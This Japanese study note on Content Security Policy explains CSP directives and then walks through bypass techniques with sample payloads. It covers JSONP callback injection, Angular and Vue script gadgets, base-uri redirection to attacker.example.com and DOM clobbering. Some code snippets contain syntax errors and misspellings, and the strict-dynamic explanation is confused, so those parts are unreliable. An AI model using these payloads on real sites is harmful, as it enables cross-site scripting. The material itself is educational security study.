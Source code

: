 # CSP Evaluation
<br>

[CSPとは](#CSPとは)

<br>

## CSPとは
CSP(Content Security Policy)

CSPはXSSなどの*Content Injection攻撃*に対するリスクを軽減させるセキュリティレイヤーのこと。

具体的には

- ホスト名
	- スクリプトの配信元として信頼するサーバーのホスト名を指定する。スクリプトを読み込む際に参照されて信頼できるものとして含まれていない場合は実行しない。
- ハッシュ値
	- 実効するスクリプトのハッシュ値を先に計算しておき、そのハッシュ値と同じ場合のみ実行を許可する。
	- hash値が異なる場合 -> script が書き換わった場合実行しない
- 乱数
	- HTMLをレスポンス時に使い捨ての乱数スクリプトに付与し、付与時の乱数と等しい場合のみ実行する。
	- nonce 属性がついていない script 要素は実行しない

<br>

## CSPが設定されているか

CSPが設定されているかは以下の2パターンで確認できる。

**HTTPヘッダに含まれる場合**
```http
HTTP/1.1 200 OK
Host: example.com
...
Content-Security-Policy: script-src 'self'
...
```

**meta要素で記述する場合**
```html
<head>
	<meta 
		http-equiv="Content-Security-Policy" 
		content="script-src 'self'"
	>
</head>
```

<br>


## ディレクティブ
ディレクティブとは、CSPによる制限を定義するための命令記法のこと。
*\<directive-name\> \<directive-value\> ...* の順で書かれる
For exsample)
```directive
script-src 'self'
script-src 'self' 'unsafe-inline'
```

<!--
**script-srs** : スクリプトに関する制限を定義するディレクティブ。
|keyword|説明|
|---|---|
|'none'|あらゆるスクリプト|
|'self'|参照している HTML と Same-Origin であるスクリプトの実行を許可する|
|*host-source:* |ホスト名や IP アドレス、URLによって指定されたサーバーから配信されるスクリプトの実行を許可する。|
|'host-souce' 'nonce-\<base64-value\>'|Base64 形式の Nonce (使い捨ての乱数) を用いてスクリプトの実行を許可する。許可対象とするスクリプト要素の nonce 属性と同じ値にならない場合、そのスクリプトは実行されない。|
|'host-souce' '\<hash-algorithm\>-\<base64-value\>'|Base64形式のハッシュ値を用いてスクリプトの実行を許可する。ハッシュ値はスクリプトの内容をハッシュ化したもの。外部リソースの場合はスクリプトの integrity 属性にそのスクリプトのハッシュ値を入れる。|
|
**connect-src** : script interfaces API (XMLHttpRequest や Fetch API のこと) を介して通信可能なURLの制限を定義するディレクティブ。connect-src ディレクティブの値として指定されたURL以外のアクセスは禁止される。

**default-src** : Fetch Directives に属するディレクティブのフォールバックとして機能する。
[developer.mozilla.org CSP: default-src](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Content-Security-Policy/default-src)

**base-uri** : base要素で可能なドキュメントの相対URLの起点を制限するディレクティブ。**none** なら安全

-->

<br>

## Bypassing

### ホストベースの構成
---
```http
Content-Security-Policy: script-src 'self' csp.example.com
```
のようになっている場合
以下の２点をチェックする

**JSONPエンドポイントの有無**

> *csp.example.com* からスクリプトを返させることによって SOP(Same-Origin-Policy) の制限をバイパスする。

Attacker -> Target
```html
<script src="csp.example.com/jsonp?callback=alert(1)//"></script>
```

Target -> csp.example.com
```text
csp.example.com/jsonp?callback=alert(1)//
#通常 callback 関数を要求していますが、今回はalertが渡されている
```

csp.example.com -> Target
```javascript
alert(1)//({name:aaaa})
// "alert(1)//" に引数を付けて返すがコメントアウトされ alert(1) が実行される
```


**サーバのライブラリ**

> ライブラリに含まれる Script Gadget と呼ばれるスクリプトの挿入を可能にするスクリプトを利用する。

Angular.js の場合
```html
<script src="csp.example.com/angular.js"></script>
<div ng-app ng-csp>{{ eval.constructor('alert(1)')() }}</div>
```

Vue.js の場合
```html
<script src="cdn.example.com/vue.js"></script>
<div>{{ constructor.constructor('alert(1)')() }}</div>
```


<br>


### ディレクティブの設定不備により脆弱性が生まれるパターン
---

> 設定の不備については
[CSP Evaluator](https://csp-evaluator.withgoogle.com/)にて脆弱性を確認できる。

**base-uri** 設定不備の際
```html
<base href="http://attacker.example.com">
```
とすることでそれ以下の\<script src="/test.js"\>となっている箇所を
http://attacker.example.com/test.js と参照先を変えることが可能

<br>

### DOM Clobbering による strict-dynamic のバイパス
---
> script-src ディレクティブに strict-dynamic が設定されている場合、DOM Clobbering と呼ばれる手法を用いて CSP をバイパスできる場合がある。
> > **strict-dynamic** : parser-incerted (\<img src="/"  onerror="\<script\>alert(1)\</script>"\>) などを防ぐ設定
> > 
> > **DOM Clobbering** とは、HTML 内に不正な HTML を挿入することで本来の DOM 構造を破壊し、JavaScrip による DOM 操作の内容を強制的に変更させる手法のこと。

**DOM Clobbering**

*document.getElementById('name')* などが存在するときは、
もともとの idの値よりも前の段階で そのidの値 を使用することで DOM 構造を破壊できる。




脆弱性)

*?title=TITLE&name=USER*
```html
<script>
	windows.onload = () {
		const name = (new URL(location).searchParams).get('name');
		document.getElemetById('name').intterHTML = name;
	}
</script>

<!-- タイトル
?title=TITLE から取得
-->
<h1>TITLE</h1>
<!-- 名前 -->
<p id="name"></p>
```


攻撃例)

*?title=\</h1\>\<script id="name"\>\</script\>\<h1\>&name=alert(1)//*
```html
<script>
	windows.onload = () {
		const name = (new URL(location).searchParams).get('name');
		document.getElemetById('name').intterHTML = name;
	}
</script>

<!-- タイトル
?title=</h1><script id="name"></script><h1> から取得
-->
<h1></h1><script id="name"></script><h1>
<!-- 名前 -->
<p id="name"></p>
```